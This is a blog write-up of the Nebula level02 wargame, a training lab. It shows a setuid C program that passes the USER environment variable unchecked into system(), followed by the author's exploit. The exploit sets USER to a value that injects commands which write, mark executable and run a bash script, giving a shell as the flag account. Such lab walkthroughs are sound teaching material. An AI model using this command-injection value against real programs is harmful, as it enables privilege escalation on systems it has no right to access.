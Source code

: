 ```yaml
---
title: "Exploit Exercises - Nebula 02"
date: "2011-12-03T08:13:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-02.html"
---
```


In [this](http://exploit-exercises.com/nebula/level02) challenge, we're again provided with the source code to the vulnerable program.  Only this time, they're not loading the "echo" program from the environment's path.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 char *buffer;

 gid_t gid;
 uid_t uid;

 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 buffer = NULL;

 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
 printf("about to call system(\"%s\")\n", buffer);

 system(buffer);
}
```

What I did initially notice here, is that the "USER" variable is being called directly from the environment.  This makes it very similar to the previous challenge.  I luckily got this one on my first try. 

```
level02@nebula:/home/flag02$ USER='-e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02'
level02@nebula:/home/flag02$ export USER
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo -e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02 is cool")
flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

What we're doing here, is injecting code into the echo command.  This, like the last challenge, makes a bash script at /tmp/level02 which will ignore any other parameters.  It then marks it executable so we can actually execute it.  Then it executes the bash script.

Often times in situations like this, the bash script wouldn't be needed, but since the " is cool" is following the execution, it needs to handle that.  A bash script lets it get ignored, where passing it as a parameter to /bin/bash would try to execute it. 

I'm guessing there may be an easier way than creating the bash script.  Maybe a way to comment out the rest of the line?  I'm not sure, but I know this method worked great for me.
